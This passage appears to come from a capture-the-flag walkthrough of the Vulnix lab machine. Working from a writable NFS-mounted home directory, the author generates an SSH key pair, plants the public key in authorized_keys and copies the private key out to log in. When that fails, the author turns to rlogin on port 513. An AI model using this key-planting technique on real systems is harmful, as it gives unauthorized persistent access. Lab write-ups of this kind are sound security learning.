 ![evidence](./static/11-useradd-vulnix.png)


## Exploitation

And now, I am going to check if I can write to that directory, and if that works, I could generate and store the `SSH` keys, and I could access the server with the `SSH` service. When I generate the `ssh` keys:
```shell
$ vulnix@xxxx:/mnt/vulnix$ ssh-keygen -t rsa -b 2048 -f .ssh/id_rsa \
> -P "" -C "vulnix@vulnix"
```
And I copy the public key to the `authorized_keys` file:
```shell
$ vulnix@xxxx:/mnt/vulnix$ cp .ssh/id_rsa.pub .ssh/authorized_keys
```
And I give the proper permissions to the `.ssh` directory:
```shell
$ vulnix@xxxx:/mnt/vulnix$ chmod 700 .ssh
```
And I copy the private key to my `/tmp` directory:
```shell
$ vulnix@xxxx:/mnt/vulnix$ cp .ssh/id_rsa /tmp/id_rsa
```
And with my user, I copy the private key:
```shell
$ sudo cp /tmp/id_rsa .
```
And I change the owner:
```shell
$ sudo chown -R "xxxx" id_rsa
```
And I use the `ssh` command:
```shell
$ ssh -i id_rsa vulnix@vulnix
```
But it does not work, and after a while checking if everything is correct, then I start to think if I could access with port `513` TCP, when I google `configure rlogin in Linux`, then I find [how toconfigurersh and rlogin on centos rhel 7](https://www.thegeeksearch.com/how-to-configure-rsh-and-rlogin-on-centos-rhel-7/):
